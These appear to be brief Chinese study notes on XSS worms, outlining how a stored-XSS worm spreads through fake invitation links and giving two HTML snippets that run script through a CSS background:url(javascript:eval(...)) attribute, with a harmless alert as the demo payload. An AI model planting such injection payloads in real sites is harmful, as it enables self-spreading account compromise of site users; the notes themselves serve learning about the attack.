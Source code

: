 
# XSS蠕虫

- 基于存储型XSS, 攻击者在页面植入恶意代码
- 发送伪装邀请链接
- 用户点击后被感染
- 新感染的用户向好友发送新的伪装邀请链接

## 使用css的background属性

``` html
<div
    style="background:url(javascript:eval(...))"
/>
```

``` html
<div
    id="mycode"
    expr="alert('hah!')"
    style="background:url(javascript:eval(document.all.mycode.expr))"
/>
```